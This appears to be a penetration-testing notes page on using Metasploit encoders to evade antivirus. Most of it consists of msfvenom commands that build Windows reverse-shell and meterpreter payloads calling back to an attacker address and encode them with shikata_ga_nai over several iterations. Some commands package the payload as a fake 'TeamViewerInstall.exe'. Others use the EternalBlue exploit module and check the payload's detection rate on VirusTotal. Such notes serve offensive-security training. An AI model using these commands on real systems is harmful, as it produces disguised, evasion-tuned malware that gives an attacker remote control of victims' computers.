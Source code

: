 # Encoders

## About

Encoders help us with AV evasion and with keeping the payloads we use compatible with the target CPU. This involves removing Hexadecimal Opcodes also called "Bad Characters" and other stuff in order to keep payloads "hidden" and functional.

One of the most used encoding schemes now is Shikata Ga Nai (SGN) which translates to "Nothing can be done about it". Although not really the best anymore but here's a [blog ](https://cloud.google.com/blog/topics/threat-intelligence/shikata-ga-nai-encoder-still-going-strong/)about it.

## Using Encoders

### Non-Encoded Payload

```bash
[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\xBadChars" -f perl
```

### Encoded Payload

```bash
[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\xBadChars" -f perl -e x86/shikata_ga_nai
```

### Encoding a selected payload

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15
msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders
# One single iteration
[!bash!]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<attacking-ip> LPORT=8080 -e <the-path-from-prev-command> -f exe -o ./TeamViewerInstall.exe
# Multiple encoding iterations
[!bash!]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<attacking-ip>> LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

## MSF - VirusTotal

{% hint style="danger" %}
Keep in mind that although we used encodings and iterations blablabla our payload is still pretty detectable by most of the AV solutions.&#x20;
{% endhint %}

```bash
$msf-virustotal -k <API key> -f TeamViewerInstall.exe
```
